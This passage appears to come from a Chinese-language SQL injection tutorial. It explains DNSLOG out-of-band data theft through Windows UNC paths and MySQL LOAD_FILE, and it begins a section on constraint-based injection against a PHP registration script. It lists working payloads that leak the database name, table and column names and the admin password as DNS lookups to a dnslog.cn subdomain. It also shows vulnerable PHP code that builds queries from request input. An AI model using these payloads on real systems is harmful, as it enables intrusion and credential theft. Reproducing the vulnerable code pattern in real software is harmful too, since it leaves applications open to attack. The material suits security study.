 
```plain
UNC路径通用命名规则，也称通用命名规范、通用命名约定，类似\softer这样的形式的网络路径。
在Windows中，路径以\\开头的路径在Windows中被定义为UNC路径，相当于网络硬盘一样的存在，所以我们填写域名的话，Windows会先进行DNS查询。但是对于Linux来说，并没有这一标准，所以DNSLOG在Linux环境不适用。

注：payload里的四个\\\\中的两个\是用来进行转义处理的。
```



UNC路径的 **格式** ：**\server\sharename\directory\filename**



等同于**SELECT LOAD_FILE('**[**//库名.1806dl.dnslog.cn/abc**](http://xn--eqrt8v.1806dl.dnslog.cn/abc)**'**



去访问  库名.1806dl.dnslog.cn 的服务器下的共享文件夹abc。



然后1806dl.dnslog.cn的子域名的解析都是在某台服务器，然后他记录下来了有人请求访问了error.1806dl.dnslog.cn，然后在DnsLog这个平台上面显示出来了



payload示例：



```sql
?id=1 and load_file(concat('\\\\', database(),'.htleyd.dnslog.cn\abc'))
?id=1 and load_file(concat('\\\\', (select table_name from information_schema.tables where table_schema=database() limit 0,1 ),'.htleyd.dnslog.cn\abc'))
?id=1 and load_file(concat('\\\\',(select column_name from information_schema.columns where table_name=’admin’ and table_schema=database() limit 2,1),'.htleyd.dnslog.cn\abc'))
?id=1 and load_file(concat('\\\\',(select password from admin limit 0,1),'.htleyd.dnslog.cn/abc'))
```



### 基于约束的sql注入攻击



最近，我遇到了一个有趣的代码片段，开发者尝试各种方法来确保数据库的安全访问。当新用户尝试注册时，将运行以下代码：



```php
<?php
// Checking whether a user with the same username exists
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);
$query = "SELECT *
          FROM users
          WHERE username='$username'";
$res = mysql_query($query, $database);
if($res) {
  if(mysql_num_rows($res) > 0) {
    // User exists, exit gracefully
    .
    .
  }
  else {
    // If not, only then insert a new entry
    $query = "INSERT INTO users(username, password)
              VALUES ('$username','$password')";
    .
    .
  }
}
```
